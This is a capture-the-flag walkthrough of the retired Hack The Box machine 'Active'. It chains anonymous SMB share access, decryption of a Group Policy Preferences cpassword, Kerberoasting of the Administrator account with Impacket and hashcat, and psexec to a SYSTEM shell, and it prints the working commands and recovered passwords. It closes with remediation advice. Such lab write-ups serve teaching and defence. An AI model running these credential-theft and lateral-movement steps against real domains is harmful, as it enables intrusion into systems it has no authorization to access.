









# Active — Hack The Box



| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Easy |
| **OS** | Windows (Active Directory) |
| **Status** | ✅ Retired |
| **Key techniques** | Anonymous SMB enumeration, GPP `cpassword` decryption, Kerberoasting |

---

## TL;DR

Active demonstrates two classic AD post-compromise techniques back to back:
pulling a Group Policy Preferences credential off an anonymously-readable
SMB share, then using that credential to Kerberoast the Administrator
account itself. No exploit, no CVE — just two well-known
misconfigurations chained together.

---

## Recon

Started with an Nmap scan to see what the box exposes:

```bash
nmap -Pn -sV -sC 10.10.10.100
```

- `-Pn`: skip host discovery (some boxes don't respond to ping)
- `-sV`: version detection
- `-sC`: default script scan


The important results: **LDAP** (389, `active.htb` domain) and **SMB**
(445) — the signature of a domain controller.

---

## Enumeration

### SMB shares

Enumerated shares to see what's reachable without credentials:

```bash
smbmap -H 10.10.10.100
```



A `Replication` share stood out with **READ ONLY** access — that's the
SYSVOL replication share every domain controller exposes, and it's worth
checking whenever it's reachable, since it holds Group Policy data.

### Anonymous access to Replication

Anonymous login worked straight away:

```bash
smbclient //10.10.10.100/Replication
recurse
prompt off
mget *
```



Pulling everything down recursively, one file immediately stood out among
the Group Policy files:



---

## Foothold / Initial Access

### GPP password

`Groups.xml` is a **Group Policy Preferences** file, and this one had a
`cpassword` value for an account called `SVC_TGS`:


GPP `cpassword` values are AES-encrypted with a key Microsoft published
years ago (after the vulnerability was disclosed), so `gpp-decrypt` on
Kali reverses it instantly:

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```



That recovered a working credential: `SVC_TGS:GPPstillStandingStrong2k18`.
Re-checked the shares with it to see if anything opened up:

```bash
smbmap -H 10.10.10.100 -u SVC_TGS -p GPPstillStandingStrong2k18
```



More shares turned READ ONLY with this account, including `Users` — that's
where the user flag was sitting.

---

## Privilege Escalation

### AS-REP roast check (dead end)

First thing I check on any AD box with a credential: whether any account
has Kerberos pre-authentication disabled.

```bash
impacket-GetNPUsers -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```

Nothing came back — no AS-REP roastable accounts here. Worth checking
first regardless, since it costs nothing and doesn't risk a lockout.

### Kerberoasting

Next, checking for accounts with an SPN set (Kerberoastable):

```bash
impacket-GetUserSPNs -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```


The **Administrator** account itself had an SPN set — meaning I could
request a service ticket for it and get back a hash encrypted with the
Administrator's own password. Cracked it with hashcat:

```bash
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt --force
```



Cracked: `Ticketmaster1968`.

### Administrator access

Confirmed the credential worked and checked what it opened up:

```bash
smbmap -H 10.10.10.100 -u Administrator -p Ticketmaster1968
```



Read/write on `ADMIN$` and `C$` — full access to the file system. Root
flag retrieved from the C$ share.

### Bonus: interactive shell

File-share access isn't the same as a shell, so I used Impacket's
`psexec` to get one:

```bash
impacket-psexec active.htb/Administrator@10.10.10.100
```



`whoami` confirmed `nt authority\system`.

---

## Lessons Learned

- **GPP `cpassword` is not a secret** — the AES key Microsoft used to
  encrypt it has been public since the vulnerability was disclosed in
  2014. Any credential stored this way should be treated as plaintext.
- **Always check AS-REP roasting before Kerberoasting** — it costs nothing
  and doesn't risk an account lockout, even when (like here) it comes back
  empty.
- **A domain account with an SPN doesn't have to be a service account** —
  here it was Administrator itself, which meant Kerberoasting led straight
  to full domain compromise instead of just another foothold.

---

## Remediation

- Never distribute credentials via Group Policy Preferences; remove any
  `cpassword` values from SYSVOL and rotate the affected accounts (patch
  MS14-025 covers the underlying issue).
- Set strong, random passwords for any account with an SPN — Kerberoast
  hashes can be cracked entirely offline, at whatever speed the attacker's
  hardware allows.
- Avoid assigning SPNs to highly privileged accounts (especially
  Administrator/Domain Admin equivalents) altogether.

---

## Tools used

- `nmap`
- `smbclient`, `smbmap`
- `gpp-decrypt` (Kali)
- Impacket (`GetNPUsers`, `GetUserSPNs`, `psexec`)
- `hashcat`

---

**See also:** [Active Directory methodology](../../methodology/active-directory.md)

---

**Machine:** [Hack The Box — Active](https://www.hackthebox.com/machines/active)
